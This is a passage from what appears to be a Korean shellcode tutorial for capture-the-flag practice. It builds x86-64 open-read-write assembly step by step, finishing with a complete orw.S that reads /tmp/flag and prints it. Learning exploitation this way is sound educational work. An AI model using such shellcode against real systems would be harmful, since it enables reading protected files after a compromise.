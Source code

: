 ## 2. read(fd, buf, 0x30)
1. 앞선 syscall open의 결과(/tmp/flag의 fd)는 `rax`에 담기므로 rax를 rdi에 대입한다.

2. `rsi`는 데이터를 저장할 주소를 가리킨다. 0x30만큼 읽을 것이므로 `rsi-0x30`을 대입하자.

3. `rdx`는 읽을 데이터의 길이이다. 0x30을 대입하자.

4. read syscall이므로 `rax`에 0을 대입하자

```text
mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)
```

> ___fd(File Descriptor)___
> 유닉스 계열의 OS에서 소프트웨어에 제공하는 가상의 접근 제어자. 프로세스마다 고유한 서술자 테이블을 가지며, 그 안에 여러 파일 서술자를 저장한다. 서술자는 번호로 구별되는데, 일반적으로 0은 `STDIN`, 1은 `STDOUT`, 2는 `STDERR`에 할당되어 있으며, 이들은 프로세스를 터미널과 연결해준다. 
> open을 통해 파일을 프로세스와 연결하려고 하면, 이미 사용중인 0~2번 이후의 번호부터 새로운 fd에 차례로 할당한다. 이후 fd를 통해 파일에 접근할 수 있다.
{: .prompt-tip}

## 3. write(1, buf, 0x30)

1. `stdout`으로 출력할 것이므로 fd는 1번이다. rdi에 0x1을 대입하자.

2. `rsi`는 read에서의 값과 동일하게 사용

3. write syscall이므로 rax를 1로 설정한다.

```text
mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

## 1+2+3
```text
;Name: orw.S

push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)

mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)

mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```
